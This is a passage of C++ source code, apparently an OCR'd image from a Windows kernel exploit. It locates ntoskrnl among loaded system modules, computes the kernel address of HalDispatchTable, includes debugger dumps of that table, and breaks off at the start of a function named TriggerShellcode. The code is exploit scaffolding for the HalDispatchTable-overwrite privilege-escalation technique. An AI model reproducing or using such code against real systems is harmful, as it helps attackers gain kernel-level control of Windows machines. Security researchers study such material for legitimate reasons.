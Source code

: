 ```cpp
        std::cout << "- ImageBaseAddress 0x" << std::hex << CurrentSM.ImageBaseAddress << std::endl;
        std::cout << "- ImageSize 0x" << std::hex << CurrentSM.ImageSize << std::endl;
        std::cout << "- Flags 0x" << std::hex << CurrentSM.Flags << std::endl;
        std::cout << "- Id 0x" << std::hex << CurrentSM.Id << std::endl;
        std::cout << "- Rank 0x" << std::hex << CurrentSM.Rank << std::endl;
        std::cout << "- LoadCount 0x" << std::hex << CurrentSM.LoadCount << std::endl;
        std::cout << "- NameOffset 0x" << std::hex << CurrentSM.NameOffset << std::endl;
        std::cout << "- Name " << CurrentSM.Name << std::endl;
        
        if (strstr(CurrentSM.Name, "ntoskrnl") || strstr(CurrentSM.Name, "ntkrnl"))
        {
            return CurrentSM;
        }

        i += 1;
    }
    
    std::cout << "[!] Can not find" << std::endl;
    system("pause");
    exit(-1);
}

ULONG64 GetHalDispatchTableAddress(SYSTEM_MODULE SM)
{
    CHAR NtName[256] = { 0 };

    strncpy(NtName, strrchr(SM.Name, '\\')+1, strlen(strrchr(SM.Name, '\\')+1));

    HMODULE hNtkrnl = LoadLibraryA(NtName);

    if (hNtkrnl == NULL)
    {
        std::cout << "[!] Open " << NtName << " Failed" << std::endl;
        exit(-1);
    }

    ULONG64 userlandHal = (ULONG64)GetProcAddress(hNtkrnl, "HalDispatchTable");
    ULONG64 kernelHal = userlandHal - (ULONG64)hNtkrnl + SM.ImageBaseAddress;

    std::cout << "[*] HalDispatchTable: 0x" << std::hex << kernelHal << std::endl;

    /*
    HalDispatchTable:
    1: kd> dq 0xfffff80003fe2cf0
    fffff800`03fe2cf0  00000000`00000004 fffff800`044148e8
    fffff800`03fe2d00  fffff800`04415470 fffff800`041aa8a0

    1: kd> uf fffff800`044148e8
    hal!HaliQuerySystemInformation:
    fffff800`044148e8 fff3            push    rbx
    fffff800`044148ea 55              push    rbp
    fffff800`044148eb 56              push    rsi
    fffff800`044148ec 57              push    rdi
    fffff800`044148ed 4154            push    r12
    */

    return kernelHal;
}

VOID TriggerShellcode()
{
    /*
```